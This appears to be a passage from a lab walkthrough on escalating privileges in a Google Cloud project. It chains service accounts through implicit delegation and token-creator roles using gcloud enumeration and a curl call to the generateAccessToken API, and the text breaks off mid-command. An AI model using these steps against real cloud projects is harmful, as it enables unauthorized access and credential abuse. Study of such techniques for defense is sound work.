 Let's examine some other IAM policies in the GCP project, starting with service account `sv2-962@gr-proj-1.iam.gserviceaccount.com` which could be related to our compromised account:
```
└─$ gcloud iam service-accounts get-iam-policy sv2-962@gr-proj-1.iam.gserviceaccount.com
bindings:
- members:
  - serviceAccount:sv1-337@gr-proj-1.iam.gserviceaccount.com
  role: projects/gr-proj-1/roles/CustomRole736
etag: BwYRl-GgV2c=
version: 1
```
`sv2-962@gr-proj-1.iam.gserviceaccount.com` is bound to the custom role `CustomRole736`, so let's examine it
```
└─$ gcloud iam roles describe CustomRole736 --project=gr-proj-1
description: 'Created on: 2024-02-17'
etag: BwYRl94lEVg=
includedPermissions:
- iam.serviceAccounts.implicitDelegation
name: projects/gr-proj-1/roles/CustomRole736
stage: ALPHA
title: Implicit_delegation
```
`CustomRole736` grants the dangerous permission `iam.serviceAccounts.implicitDelegation`, which allows `sv1-337` to execute commands as `sv2-962` without explicit consent. Implicit delegation allows one user or service account to perform actions on behalf of another user or service account without needing explicit consent. This is often used in scenarios where an application needs access to GCP resources on behalf another identity. Such resources could be anything, from Cloud Storage buckets to Compute Engine instances (VMs).

Let's check the IAM roles and permissions of the `sv3-939@gr-proj-1.iam.gserviceaccount.com`
```
└─$ gcloud iam service-accounts get-iam-policy sv3-939@gr-proj-1.iam.gserviceaccount.com
bindings:
- members:
  - serviceAccount:sv2-962@gr-proj-1.iam.gserviceaccount.com
  role: roles/iam.serviceAccountTokenCreator
etag: BwYR0jQnfO0=
version: 1

```
Seems that `sv2-962@gr-proj-1.iam.gserviceaccount.com` can create create access tokens for the service account `sv3-939@gr-proj-1.iam.gserviceaccount.com`. It can be exploited to escalate privileges from the service account `sv1-337` to `sv3-939` by leveraging the implicit delegation and create token privileges

The [blog post from Rhino Security Labs](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) is recommended reading to learn about this and other privilege escalation techniques. 

[](escalate-gcp-privileges-with-implicit-delegation-1.png)

Start the attack and escalate the privileges to `sv3-939@gr-proj-1.iam.gserviceaccount.com` . First, print the access token of `sv1-337`
```
└─$ gcloud auth print-access-token
<REDACTED>
```
Then generate an access token for `sv3-939@gr-proj-1.iam.gserviceaccount.com` using `curl` command. We use the implicit delegation privilege between the `sv1` and `sv2` service accounts to generate an access token for the `sv3` service account. We authenticate using the `srv1` token, specify `srv2` as a delegate, and send the request to the API endpoint to generate an API token for `srv3`
```
└─$ curl -X POST \
  "https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/sv3-939@gr-proj-1.iam.gserviceaccount.com:generateAccessToken?access_token=<REDACTED>" \
  -H "Content-Type: application/json" \
```